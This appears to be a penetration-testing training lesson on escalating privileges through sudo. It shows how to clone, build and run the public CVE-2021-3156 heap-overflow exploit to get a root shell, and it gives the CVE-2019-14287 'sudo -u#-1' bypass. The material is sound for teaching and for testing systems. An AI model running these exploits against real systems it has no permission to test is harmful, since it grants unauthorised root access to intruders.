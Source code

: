 The program `sudo` is used under UNIX operating systems like Linux or macOS to start processes with the rights of another user. In most cases, commands are executed that are only available to administrators. It serves as an additional layer of security or a safeguard to prevent the system and its contents from being damaged by unauthorized users. The `/etc/sudoers` file specifies which users or groups are allowed to run specific programs and with what privileges.
```shell-session
cry0l1t3@nix02:~$ sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
[sudo] password for cry0l1t3:  **********

Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root            ALL=(ALL:ALL) ALL
%admin          ALL=(ALL) ALL
%sudo           ALL=(ALL:ALL) ALL
cry0l1t3        ALL=(ALL) /usr/bin/id
@includedir     /etc/sudoers.d
```

One of the latest vulnerabilities for `sudo` carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- and others

To find out the version of `sudo`, the following command is sufficient:
```shell-session
cry0l1t3@nix02:~$ sudo -V | head -n1

Sudo version 1.8.31
```

The interesting thing about this vulnerability was that it had been present for over ten years until it was discovered. There is also a public [Proof-Of-Concept](https://github.com/blasty/CVE-2021-3156) that can be used for this. We can either download this to a copy of the target system we have created or, if we have an internet connection, to the target system itself.
```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/blasty/CVE-2021-3156.git
cry0l1t3@nix02:~$ cd CVE-2021-3156
cry0l1t3@nix02:~$ make

rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
```

When running the exploit, we can be shown a list that will list all available versions of the operating systems that may be affected by this vulnerability.
```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

We can find out which version of the operating system we are dealing with using the following command:
```shell-session
cry0l1t3@nix02:~$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

Next, we specify the respective ID for the version operating system and run the exploit with our payload.
```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **

# id

uid=0(root) gid=0(root) groups=0(root)
```

## Sudo Policy Bypass

Another vulnerability was found in 2019 that affected all versions below `1.8.28`, which allowed privileges to escalate even with a simple command. This vulnerability has the [CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) and requires only a single prerequisite. It had to allow a user in the `/etc/sudoers` file to execute a specific command.
```shell-session
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

In fact, `Sudo` also allows commands with specific user IDs to be executed, which executes the command with the user's privileges carrying the specified ID. The ID of the specific user can be read from the `/etc/passwd` file.
```shell-session
cry0l1t3@nix02:~$ cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

Thus the ID for the user `cry0l1t3` would be `1005`. If a negative ID (`-1`) is entered at `sudo`, this results in processing the ID `0`, which only the `root` has. This, therefore, led to the immediate root shell.
```shell-session
cry0l1t3@nix02:~$ sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```
